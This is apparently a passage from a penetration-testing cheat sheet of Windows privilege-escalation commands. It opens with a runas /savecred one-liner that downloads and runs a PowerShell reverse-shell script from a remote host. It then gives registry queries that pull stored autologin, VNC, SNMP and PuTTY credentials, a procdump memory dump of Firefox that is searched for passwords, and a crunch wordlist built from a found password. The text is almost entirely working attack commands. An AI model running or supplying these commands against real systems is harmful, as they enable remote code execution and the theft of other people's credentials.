 ```powershell
cmdkey /list # If there some password : runas /user:ACCESS\Administrator /savecred "powershell -c IEX (New-Object net.webclient).downloadstring('http://10.10.14.6/Invoke-PowerShellTcp.ps1')"
```

```powershell
reg query 'HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon' # Windows autologin
```

```powershell
reg query 'HKCU\Software\ORL\WinVNC3\Password' # VNC
```

```powershell
reg query 'HKLM\SYSTEM\Current\ControlSet\Services\SNMP' # SNMP Parameters
```

```powershell
reg query 'HKCU\Software\SimonTatham\PuTTY\Sessions' # Putty
```

```powershell
reg query HKLM /f password /t REG_SZ /s # Search for password in registry in HKLM
reg query HKCU /f password /t REG_SZ /s # Search for password in registry in HKCU
```

```powershell
runas /user:$NEW_USER cmd.exe # Use the cleartext creds
```

### Dump firefox for passwords

```powershell
# Looking for Firefox
Get-Process
./procdump64.exe -ma $FIREFOX_PID
Select-String -Path .\*.dmp -Pattern 'password' > 1.txt
type 1.txt | findstr /s /i "admin"
```

Use the potential of new cleartext password found to get an other user:
```shell
crunch 6 6 -t FindedPassword%%% > wordlist
```
